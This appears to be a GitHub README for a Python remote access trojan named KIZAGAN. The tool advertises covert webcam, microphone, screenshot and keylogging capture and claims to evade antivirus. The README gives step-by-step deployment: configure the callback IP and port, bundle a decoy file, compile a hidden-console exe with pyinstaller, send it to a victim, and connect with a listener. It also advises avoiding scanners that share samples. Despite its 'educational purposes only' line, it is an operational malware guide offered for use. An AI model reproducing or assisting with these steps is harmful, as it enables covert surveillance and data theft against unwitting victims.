 # KIZAGAN

KIZAGAN is a remote access trojan built with python.It can take victim's camera snapshots, microphone sounds, screenshots... Also it has keylogger inside and it is undetectable.

Antivirus scan result : (btw, scan it on non-distrubuted online antivirus scanners please.)

![scan-result](https://user-images.githubusercontent.com/68844502/232308126-a7756b05-6d6f-4a4f-abac-10a87d0514f1.PNG)

## EDUCATIONAL PURPOSES ONLY.

##### I am not responsible in bad uses of kizagan.


# SETUP

1. In linux (Your server that listening connections from clients.)

+ python setupLinux.py

2. In windows (Theese libraries are needed when converting python file to exe file.)

+ python setupWindows.py

# USAGE

1. Open the kizaganEN.py with a text editor and change the ip and port according to yourself. (You can set for port forward services ngrok etc.)

![a1](https://user-images.githubusercontent.com/68844502/232308824-5bacce15-50b6-44b4-9df2-eb343b345b6b.PNG)

2. Get an icon file and a merge file from the internet etc.

![a3](https://user-images.githubusercontent.com/68844502/232310059-bbc0475a-1f8e-41f5-9b2e-bd98b97d245f.jpg)

2. Change the value of Open_Added_File function then save it.

![a4](https://user-images.githubusercontent.com/68844502/232310658-07c4b9c0-68e9-40e4-9852-a5f9d3217d64.PNG)

3. Use the pyinstaller to convert this python file to exe file.(Make it on windows.)
+ pyinstaller --onefile --noconsole --icon <your icon file with .ico extension> --add-data "<example.pdf>;." -w kizaganEN.py

![a5](https://user-images.githubusercontent.com/68844502/232311188-9ad74a61-307e-4741-ae10-48491904d701.PNG)

4. When the execute is finished,our trojan file with .exe extension found in dist file.

![a5](https://user-images.githubusercontent.com/68844502/232312235-7b3a0501-bdb1-4719-9f14-d293949e1b64.PNG)

![a6](https://user-images.githubusercontent.com/68844502/232312242-81ca1282-b956-4f4e-bd0b-9d9c83664392.PNG)

5. Now, we are ready.Send this .exe file to a victim and wait for the executing the trojan.

6. When the trojan executes, the trojan will send a connection to you in every 5 seconds.

7. Let's say, the victim executed the trojan.We can get this connection by following command in linux :

+ python kizagan_listener.py -ip <<client ip>> -p <<port>>

![a8](https://user-images.githubusercontent.com/68844502/232312631-5850918b-f8b3-4a4d-b66e-9f2e0a809dc4.PNG)

8. When the trojan executed our merge file will opened and a connection will come to us.

![a9](https://user-images.githubusercontent.com/68844502/232312825-7f919b2d-1689-4a6f-a0cb-d772308bd9c3.PNG)

![a10](https://user-images.githubusercontent.com/68844502/232312831-307e8bd1-049a-4a75-a815-c4b7191756e7.PNG)

9. If you want to record microphone of victim, say 'Y' for it.

![a10](https://user-images.githubusercontent.com/68844502/232313290-a627eea5-84cd-4a5d-873c-6488996e2dc4.PNG)

10. You can set default by saying 'N' for it.Or you can change the chat port.

![a11](https://user-images.githubusercontent.com/68844502/232313292-cec56a06-42a3-4176-941c-afeaa03d944d.PNG)

11. And we are rocking now! You can view the commands by using 'help' command.

![a15](https://user-images.githubusercontent.com/68844502/232313369-a0d41ad8-2b03-4490-a7da-37c850b8e4d6.PNG)

![a16](https://user-images.githubusercontent.com/68844502/232313370-011f79e1-b650-4b54-8425-ff498603cc05.PNG)

![a12](https://user-images.githubusercontent.com/68844502/232313371-bf3ba723-d6d7-40e3-9723-82cd14dd9390.PNG)

![a13](https://user-images.githubusercontent.com/68844502/232313373-2d75ce01-9b89-4b21-82cc-7686b2b4961b.PNG)

![a14](https://user-images.githubusercontent.com/68844502/232313374-64955604-ed82-4382-acb8-687742936928.PNG)

12. Getting microphone sounds, camera snapshots, screenshots etc.

![a17](https://user-images.githubusercontent.com/68844502/232313411-cf03dc49-6a6f-4915-b788-d53bc7d135e5.PNG)

![a18](https://user-images.githubusercontent.com/68844502/232313414-692772de-9983-480e-bc3a-eeb6041e9907.PNG)


### You can contact me here or in instagram : 

+ https://www.instagram.com/arduinocum.py/
